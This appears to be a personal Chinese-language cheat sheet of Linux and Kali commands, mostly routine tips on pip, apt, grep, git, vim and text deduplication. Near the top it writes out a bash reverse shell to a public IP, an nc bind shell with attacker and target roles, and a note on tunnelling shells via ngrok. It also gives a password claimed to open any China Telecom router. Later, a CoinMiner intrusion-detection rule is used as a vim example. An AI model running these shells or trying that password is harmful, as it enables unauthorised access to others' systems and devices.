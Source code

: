 ### kali重新启动网卡

/etc/init.d/networking restart





bash -i >/dev/tcp/119.28.130.53/2333 0>&1 2>&1



正向反弹   靶机 ：nc -lvp 2333 -e /bin/bash   
  
攻击机： # nc 192.168.255.147（靶机ip）  2333



设置好ngrok，弹shell到ngrok的公网服务器ip端口上，本地监听ngrok的127.0.0.1的地址加ngrok的本地转发端口


### pip检查哪些包需要更新

	# pip list --outdated

### pip升级包

	# pip install --upgrade 要升级的包名


echo  中转义  用 ^ 相当于 正则中\

echo  ^%  输入  %

### apt 安装指定版本软件解决依赖问题

apt-get install zlib1g=1:1.2.3.4.dfsg-3ubuntu4



### 在当前目录下递归遍历各子文件夹的文件寻找含有 abc 字符串的文件信息

grep -r abc .


### 文件相关

查看文件/文件夹大小

du -sh *

或

ls -l -h

或

ls -lht

### kali linux 调整 sda1 大小 

用GPart 


linux pwd命令 查看路径，查看当期路径在系统路径位置


### windows环境下python3安装Crypto

https://blog.csdn.net/five3/article/details/86160683

https://forum.90sec.org/   90sec 论坛


nE7jA%5m 就是这个密码 只要是电信设备路由器都可以试试，百试百灵



https://www.acgbk2.com/  acg宝库永久 https://acgbk.vip/



https://zxso.net/tool/shorturl.php   免注册短网址生成



http://ip.bczs.net/country/CN   全球ip 数据库



https://www.0xnull.org/   0xnull,  技术网站

### 反编译 linux 里的 ELF 文件

objdump -S a > a.S

### Github push代码到仓库，卡在WriteObjects不动

一般是有大文件

git config --global http.postBuffer 524288000



# 删除空文件夹

 	find -type d -empty|xargs -n 1 rm -rf

# 当前文件夹名字输出到文件

	ls > ../cve.txt


# vim 分割替换文本

	alert tcp $HOME_NET any -> $EXTERNAL_NET any (msg:"TROJAN CoinMiner Known Malicious Stratum Authline (2017-09-20 9)"; flow:established,to_server; content:"|22|id|22 3A|"; content:"|22|method|22 3a|"; pcre:"/(?:\x22mining\.authorize\x22\x2c|\x22login\x22\x2c)/R"; content:"|22|params|22|"; within:50; pcre:"/(?:\x22login\x22\x3a\x22dashcain@protonmail\.com\x22\x2c\x22pass\x22\x3a\x22x\x22|\x22login\x22\x3a\x22moringott26@gmail\.com\x22\x2c\x22pass\x22\x3a\x22x\x22|\x22login\x22\x3a\x2247k5TbgFezTDNtJomYPgaDdk3dyQrHZvwYcnDSV6SnGCHGDP5UWMVFXFDBg25ekR5uTWjiETwQUukbQmmwDqAZ3A3aF4osR\x22\x2c\x22pass\x22\x3a\x2232\x22|\x22login\x22\x3a\x22alisher2606@gmail\.com\x22\x2c\x22pass\x22\x3a\x22x\x22|\x22login\x22\x3a\x22super\.kapu2015@gmail\.com\x22\x2c\x22pass\x22\x3a\x22x\x22|\x22login\x22\x3a\x22Sanya1995ua@gmail\.com\x22\x2c\x22pass\x22\x3a\x22x\x22|\x22login\x22\x3a\x224BrL51JCc9NGQ71kWhnYoDRffsDZy7m1HUU7MRU4nUMXAHNFBEJhkTZV9HdaL4gfuNBxLPc3BeMkLGaPbF5vWtANQnM2XjL7BeJ3umLDEe+w420\x22\x2c\x22pass\x22\x3a\x22x\x22|\x22login\x22\x3a\x2246s3552pauRKEovP5KuYrZLCCrxsVDHoscYbSAYaqhDyVneL7AgEhpeG3ionKZy3cHQA3RWHvVr3g3fbsLrN3T3mHbWPkNg+MoyuFirst\x22\x2c\x22pass\x22\x3a\x22x\x22|\x22login\x22\x3a\x224JUdGzvrMFDWrUUwY3toJATSeNwjn54LkCnKBPRzDuhzi5vSepHfUckJNxRL2gjkNrSqtCoRUrEDAgRwsQvVCjZbS46fdUWD3ty8j16LNa\.103-208-220-133\x22\x2c\x22pass\x22\x3a\x22x\x22|\x22login\x22\x3a\x22butcherzz1337@gmail\.com\x22\x2c\x22pass\x22\x3a\x22x\x22)/R"; metadata: former_category MALWARE; reference:url,research.zscaler.com/2013/12/bitcoin-mining-operation-seen-across.html; reference:url,www.btcguild.com/new_protocol.php; reference:url,mining.bitcoin.cz/stratum-mining; reference:md5,b7759d56b5173157705bbb424bf27d71; classtype:trojan-activity; sid:2828019; rev:1; metadata:affected_product Windows_XP_Vista_7_8_10_Server_32_64_Bit, attack_target Client_Endpoint, deployment Perimeter, signature_severity Major, created_at 2017_09_20, malware_family CoinMiner, performance_impact Moderate, updated_at 2017_09_20;)

操作如下：

1. 将要提取的正则前的字符替换为空 ```.*pcre:"/(?```  ,  /g  表示全局

	:%s/.*pcre:"\/(?://g     

2. 将要提取的正则后的字符替换为空 ```)\/R";.*```

	:%s/)\/R";.*//g

3. 将 ```|``` 替换为 ```\r```

	:%s/|/\r/g

# linux 文本取差集

	sort a.txt b.txt b.txt | uniq -u

https://blog.csdn.net/yuanyuan95/article/details/88349289

(回车换行等符号会产生影响，可提前去除)

# 一个文本文件内有重复行，把多余的删掉，另存

linux的uniq是多么的四两拨千斤：

uniq 1.txt result.txt

两个文件：2是1的子集，求交集1-2=？。

cat轻松搞定：

cat 2.txt 1.txt | sort | uniq -u > result.txt

grep也可以，就是得带几个参数，多操了些心：

grep -F -v -f 2.txt 1.txt | sort | uniq > result.txt

2.txt 1.txt的顺序很重要。


# 16进制展示文件内容

linux下用 ```xxd 文件名```

